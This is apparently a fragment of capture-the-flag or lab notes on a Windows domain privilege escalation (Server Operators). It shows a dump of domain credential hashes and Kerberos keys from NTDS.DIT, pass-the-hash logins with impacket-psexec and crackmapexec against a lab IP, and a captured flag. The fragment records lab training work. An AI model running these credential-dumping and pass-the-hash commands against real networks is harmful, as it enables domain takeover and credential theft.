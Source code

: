 Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:f220c24907b50fe1666a8227013389f60c775440806853065f80d9ecbe5a4a18
Administrator:aes128-cts-hmac-sha1-96:9f9f3c7d7a4db1dc88197c0b00b444f9
Administrator:des-cbc-md5:a7fe6bceb9975107

impacket-psexec administrator@10.129.43.42 -hashes :7796ee39fd3a9c3a1844556115ae1a54

C:\Windows\system32>type c:\Users\Administrator\Desktop\ServerOperators\flag.txt
S3rver_0perators_@ll_p0werfull!

--> Other method for pass-the-hash :
crackmapexec smb 10.129.43.42 -u Administrator -d . -H 7796ee39fd3a9c3a1844556115ae1a54